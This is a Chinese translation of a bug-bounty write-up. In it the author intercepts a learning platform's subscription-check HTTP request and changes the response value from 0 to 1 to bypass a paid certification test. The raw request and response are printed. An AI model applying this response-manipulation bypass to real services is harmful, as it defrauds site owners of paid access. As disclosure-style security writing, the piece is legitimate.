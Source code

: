 # 绕过订阅，获得认证

> 原文：<https://infosecwriteups.com/bypassed-the-subscription-and-got-the-certification-27c571c2f383?source=collection_archive---------0----------------------->

嘿，各位黑客和臭虫猎人们，

# **通过响应操作绕过订阅的故事。**

昨天，我在寻找目标。一段时间后，我完成了学习平台。例如(test.com)。进入网站后，有一个标签叫做认证。在认证页面上，有很多课程可供选择。

![](img/e0c90744b714021d1f602972fd434a08.png)

我看到了 java 编程课程，我点击了 Java 认证，它要求参加测试，我点击了参加按钮，网站显示需要订阅，我就像 WTF！！！

![](img/65335344ebb00110bdef4be96d569a5e.png)

你们都知道我现在要做什么，我截取了参加的请求，这个请求看起来像，

> POST/Service/users . aspx/UserSubscriptionStatus HTTP/1.1
> 主机:[www.test.com](http://www.edubull.com)用户代理:Mozilla/5.0(X11；Linux x86 _ 64RV:78.0)Gecko/2010 01 01 Firefox/78.0
> 接受:应用/json，text/javascript，*/*；q=0.01
> 接受-语言:en-US，en；q=0.5
> 接受-编码:gzip，deflate
> 内容-类型:application/JSON；charset = utf-8
> X-Requested-With:XMLHttpRequest
> Content-Length:17
> Origin:[https://www.test.com](https://www.edubull.com)
> Connection:close
> Referer:[https://www.test.com/certifications/java-programming](https://www.edubull.com/certifications/java-programming)
> Cookie:cookies；
> 
> {
> 
> 用户 id:“210125”
> 
> }

回应看起来像是，

> HTTP/1.1 200 OK
> Cache-Control:private，max-age = 0
> Content-Type:application/JSON；charset=utf-8
> 服务器:Microsoft-IIS/10.0
> X-Powered-By:ASP.NET
> X-Powered-By Plesk:PleskWin
> 日期:2021 年 10 月 23 日星期六 07:21:46 GMT
> 连接:关闭
> Content-Length: 9
> 
> {"d":"0"}

在这里，我所做的是，只是我把 d 值改为“1 ”,订阅被绕过，我就像这样

![](img/6d3b27ac0687702ed3bfdefe8bb6d525.png)

这个网站还有更多 XSS 和伊多尔漏洞，所以我不能透露网站名称。

请关注我，获取更多关于寻找 bug 的文章

在 Instagram 上关注我:[https://www.instagram.com/ram_0x_infosec/](https://www.instagram.com/ram_0x_infosec/)

在 Linkedin 上联系我:[https://www.linkedin.com/in/ram0xinfosec/](https://www.linkedin.com/in/ram0xinfosec/)
